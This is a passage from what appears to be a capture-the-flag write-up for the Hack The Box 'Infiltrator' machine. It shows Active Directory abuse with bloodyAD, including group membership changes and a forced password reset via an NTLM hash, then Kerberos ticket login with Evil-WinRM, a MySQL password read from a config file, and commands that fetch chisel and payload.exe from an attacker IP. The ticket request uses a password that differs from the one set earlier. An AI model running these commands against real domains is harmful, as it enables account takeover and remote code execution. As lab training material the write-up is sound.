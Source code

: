 ```
[libdefaults]
        default_realm = INFILTRATOR.HTB

[realms]
        INFILTRATOR.HTB = {
                kdc = dc01.infiltrator.htb
                admin_server = dc01.infiltrator.htb
        }

[domain_realm]
        .infiltrator.htb = INFILTRATOR.HTB
        infiltrator.htb = INFILTRATOR.HTB

[logging]
#       kdc = CONSOLE
```

If you are not a scrub like me, you could have just generated this with `nxc`.

```console
$ nxc smb infiltrator.htb --generate-krb5-file krb5.conf
```

Now we add ourself to the target group and force a password change.

```console
$ bloodyAD --host 10.10.11.31 -d infiltrator.htb -u "e.rodriguez" -p ':b02e97f2fdb5c3d36f77375383449e56' add groupMember 'CHIEFS MARKETING' 'e.rodriguez'
[+] e.rodriguez added to CHIEFS MARKETING

$ bloodyAD --host 10.10.11.31 -d infiltrator.htb -u "e.rodriguez" -p ':b02e97f2fdb5c3d36f77375383449e56' set password 'm.harris' 'Pwn3d_by_ACLs!'
```

Since `m.harris` is playing the _protected user_ card like he the president of Active Directory, we gotta do the whole “request a TGT and flex Kerberos auth” dance again.  

No password? No problem — just slide into Evil-WinRM using the magic `--realm` flag with your shiny ticket instead of a boring old password. It’s like showing up to the party with a golden invite while everyone else is stuck outside sweating their creds.

```console
$ getTGT.py 'infiltrator.htb/m.harris:NewP@ssword2024' -dc-ip 10.10.11.31
[*] Saving ticket in m.harris.ccache

$ export KRB5CCNAME=m.harris.ccache
$ evil-winrm -i dc01.infiltrator.htb -u 'm.harris' --realm INFILTRATOR.HTB 
```

## Root
After logging in, we find a few zip files in `C:\ProgramData\Output Messenger Server\Temp>`. Inside the `OutputMessengerMysql.zip` we find a `OutputMysql.ini` that contains a password for port 14406.

```
$ cat OutputMysql.ini
[SETTINGS]
SQLPort=14406
Version=1.0.0

[DBCONFIG]
DBUsername=root
DBPassword=ibWijteig5
DBName=outputwall

[PATHCONFIG]
;mysql5.6.17
MySQL=mysql
```

[dc01.infiltrator.htb]: PS C:\Users\M.harris\Documents> certutil -f -urlcache http://10.10.14.7:8000/chisel.exe C:\Windows\Temp\chisel.exe
[dc01.infiltrator.htb]: PS C:\Windows\Temp> .\chisel.exe client 10.10.14.7:8080 R:14121:127.0.0.1:14406
[10.10.11.31]: PS C:\Windows\Temp> curl.exe http://10.10.14.7:8000/payload.exe -o payload.exe